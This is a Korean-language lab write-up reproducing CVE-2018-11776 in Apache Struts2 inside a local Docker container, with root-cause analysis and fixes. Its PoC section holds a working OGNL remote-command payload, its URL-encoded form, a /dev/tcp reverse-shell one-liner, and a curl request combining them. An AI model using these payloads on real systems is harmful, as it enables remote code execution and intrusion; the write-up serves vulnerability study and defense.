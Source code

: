 # CVE-2018-11776

## 1. 환경 구성

 **mac os **

**docker**

**Apache Struts2 2.3 ~ 2.3.34 그리고 2.5 ~ 2.5.16 버전**



****

도커 이미지 다운로드

```
$ docker pull piesecurity/apache-struts2-cve-2017-5638
```



 도커 컨테이너는 8080 포트, 호스트 시스템은 32771 포트를 사용

```
$ docker run -d --name struts2 -p 32771:8080 piesecurity/apache-struts2-cve-2017-5638
```



도커 내부 및 설정 파일 접근

```
$ docker exec -t -i struts2 /bin/bash
$ apt-get update
$ apt-get install vim
$ vim /usr/local/tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
```



Struts.xml 에서 <struts> 부분에 맵퍼 추가 

```
<constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
```

이미지



Struts.xml 에서 **<package name="default" extends="struts-default">** 부분에 리다이렉션 액션 추가

```
<action name="help">
    <result type="redirectAction">
        <param name="actionName">date.action</param>
    </result>
</action>
```

이미지



컨테이너 재시작

```
$ exit
$ docker restart struts2
```



## 2. PoC

1. Apache Struts2 정상 동작 확인

   이미지

   

2. curl을 통해 OGNL 표현식이 변환된 것을 확인

   이미지

   

3. 삽입 될 페이로드 

   ```
   ${(#_memberAccess['allowStaticMethodAccess']=true).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
   ```



4. URL 인코딩한 페이로드 

   ```
   %24%7B%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29.%28%23cmd%3D%27id%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27c%27%2C%23cmd%7D%3A%7B%27bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%23ros%3D%28%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getOutputStream%28%29%29%29.%28%40org.apache.commons.io.IOUtils%40copy%28%23process.getInputStream%28%29%2C%23ros%29%29.%28%23ros.flush%28%29%29%7D
   ```



5. curl을 통해 명령어 삽입하여 id값 추출

   이미지

   

6. 리버스 쉘을 실행시키기 위한 명령어

   ```
   bash -i >& /dev/tcp/192.168.1.2/1337 0>&1
   ```



7. curl을 통해 서버포트 강제오픈 (리버스쉘) 

   ```
   curl -v 'localhost:32771/%24%7B%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29.%28%23cmd%3D%27bash%20-i%20%3e%26%20/dev/tcp/192.168.0.6/1337%200%3e%261%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27c%27%2C%23cmd%7D%3A%7B%27bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%23ros%3D%28%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getOutputStream%28%29%29%29.%28%40org.apache.commons.io.IOUtils%40copy%28%23process.getInputStream%28%29%2C%23ros%29%29.%28%23ros.flush%28%29%29%7D/help.action'
   ```



8. 리버스 쉘 획득 성공

   이미지





## 3. 원인 분석

1. alwaysSelectFullNamespace 플래그 설정이 Struts 구성에서 true 로 설정됨. (널리 사용되는 Struts Convention 플러그인을 사용하는 경우 기본 설정임)
2. Struts 설정 파일은 선택적 namespace 속성을 지정하지 않거나 와일드카드 namespace(e.g. "/*")를 지정하는 <action ...> 태그가 포함되어 있음.



## 4. 대응 방안

1. Struts 2.3.35 버전 혹은 2.5.17 버전으로 업그레이드

이미지

패치된 코드를 보면 cleanupNamespaceName 메소드에 화이트리스트 기능을 추가하여 악의적인 코드를 OGNL 형식으로 주입되는걸 방치시킴.



2. 지정된 네임스페이스 속성 추가: https://github.com/SpiderLabs/owasp-modsecurity-crs/pull/1177









## 참조

1. https://koromoon.blogspot.com/2018/09/cve-2018-11776-apache-struts2-s2-057.html
2. https://github.com/hook-s3c/CVE-2018-11776-Python-PoC
3. https://www.secjuice.com/apache-struts2-cve-2018-11776/


